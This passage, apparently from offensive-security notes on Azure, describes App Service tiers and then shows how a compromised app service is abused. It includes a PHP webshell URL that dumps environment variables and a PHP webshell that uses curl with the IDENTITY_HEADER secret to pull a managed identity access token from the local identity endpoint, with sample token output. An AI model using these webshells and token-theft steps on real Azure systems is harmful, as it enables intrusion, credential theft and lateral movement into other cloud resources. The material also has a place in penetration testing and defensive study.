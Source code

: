--> Then Token can be used directly with **Azure REST API**  

#### Enterprise Apps
#### App Services
> Azure App Service is an HTTP-based service for hosting web applications, REST APIs, and mobile back ends.

App Service contains the following Azure web resources:  
- Web App
- Function App
- Mobile Apps

- Linux environnement
- Windows environnement

**Languages**: .NET, .NET Core, Java, Python, Ruby, NodeJS, PHP  

--> App runs inside a sandbox with different isolation level depending on App Service Plan and tarification:  

- Apps in Free and Shared tiers run on shared VMs
- Apps in Standard and Premium tiers run on dedicated VMs

Abuse App Service : vulnerabilities in the code deployed are abusable using classic web application vulnerabilities or business logic flaw.  

--> Command Execution within an app service will result in low-privilege execution context based on the worker process permissions.  
--> In case the app service use **Managed Identity**, it would be possible to impersonate and abuse this managed identity and potentially access other Azure resources.  

- If the app service contains environment variables **IDENTITY_HEADER**
and **IDENTITY_ENDPOINT**, it has a managed identity.

WebShell PHP 1: Accessing environment variables
```
http://company.azurewebsites.net/uploads/webshell.php?cmd=env  
```

> IDENTITY_HEADER=b53d3a04-f0f5-4859-984e-36ab406f80fe
> IDENTITY_ENDPOINT=http://169.254.129.2:8081/msi/token

WebShell PHP 2: Accessing access token for the managed identity
```
<?php

system('curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com/&api-version=2017-09-01" -H secret:$IDENTITY_HEADER');

?>


{"access_token":"eyJ0csFS534CJhbGciOiJSFDZAD","expires_on":"11/02/2020 22:10:03 +00:00","resource":"https://management.azure.com/","token_type":"Bearer","client_id":"064423R237-dzef-45gt-25ko-dzeji56j32"}
```
